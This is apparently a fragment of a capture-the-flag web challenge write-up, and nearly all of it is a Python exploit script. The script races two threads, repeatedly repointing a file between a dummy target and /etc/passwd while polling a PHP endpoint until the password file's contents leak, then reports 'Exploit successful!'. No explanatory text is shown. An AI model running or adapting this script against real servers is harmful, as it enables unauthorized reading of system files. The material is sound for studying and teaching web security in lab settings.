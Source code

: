 ```python
        filename = "file1"
        valid_target = "dummy"
        real_target = "/etc/passwd"

        def create_loop():
            while True:
                self.create_file(filename, valid_target)
                time.sleep(0.1)
                self.create_file(filename, real_target)
                time.sleep(0.1)

        def read_loop():
            while True:
                resp = self.read_file(filename)
                if "root:" in resp.text:
                    print("[+] Success! Found content:")
                    print(resp.text)
                    return True
                time.sleep(0.1)

        with ThreadPoolExecutor(max_workers=2) as executor:
            create_task = executor.submit(create_loop)
            read_task = executor.submit(read_loop)

            try:
                result = read_task.result(timeout=30)
                if result:
                    print("[+] Exploit successful!")
            except:
                print("[-] Exploit failed or timed out")
            finally:
                create_task.cancel()

def main():
    url = "http://localhost:8000/citrus.php%3Fooo.php"
    exploit = Exploit(url)
    exploit.run_exploit()

if __name__ == "__main__":
    main()
```
![alt text](../ctf-web/hkimages/image-8.png)
